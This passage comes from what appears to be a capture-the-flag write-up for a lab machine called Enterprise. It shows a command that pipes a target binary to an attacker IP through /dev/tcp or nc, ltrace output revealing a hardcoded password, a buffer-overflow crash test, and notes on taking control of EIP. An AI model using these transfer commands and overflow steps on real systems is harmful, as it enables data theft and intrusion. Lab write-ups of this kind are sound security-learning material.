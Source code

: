 ```bash
cat < ./bin/lcars > /dev/tcp/10.10.14.16/443
# Or:
# nc 10.10.14.16 443 < ./bin/lcars
```

> **Attacker Machine:**

```bash
md5sum lcars_binary

sudo apt install ltrace strace -y
chmod +x lcars_binary
ltrace ./lcars_binary
#    --> strcmp("1234\n", "picarda1")        <-- Code ! :)

# Test Buffer Overflow Vulnerabiliy
./lcars_binary
#    /> picarda1
#    /> 4
#    /> AAAAAAAA.......AAAAAAA
#         --> Segmentation fault (core dumped)        --> BOF!!!!
```

<br />
<img src="{{ site.img_path }}/enterprise_writeup/Enterprise_089.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/enterprise_writeup/Enterprise_090.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/enterprise_writeup/Enterprise_091.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/enterprise_writeup/Enterprise_092.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/enterprise_writeup/Enterprise_093.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

Now I am going to collect all the information I need to create the exploit, first I check what **[protection properties](https://mdanilor.github.io/posts/memory-protections/){:target="_blank"}** the binary has enabled. The **NX** is disabled (<ins>which would allow me to execute a payload in memory</ins>) but the **PIE** is (<ins>it is not recommended to use memory, due to the randomization of the offset</ins>). I also check that the **registers** and the **EIP** are being overwritten with the **A's** that I enter, with `gdb` I can inspect to see in a precise way the values of the same ones. Then I can calculate the offset to make me **EIP** and enter an address that I indicate and thus in this way execute a malicious payload, with `python` I generate a string with the necessary amount of **A's** and then **4 B**, in this way I finally check my goal of having control of **EIP**. I need to **[install gdb](https://www.gdbtutorial.com/tutorial/how-install-gdb){:target="_blank"}** and **[peda](https://github.com/longld/peda){:target="_blank"}** on my machine, because I recently crash my **OS**, things that happen when you play a lot and take care little, things of inexperienced.

> **GDB** or **GNU Debugger** is GNU project which helps to debug software applications and analyze what is happening during program execution. It helps to:

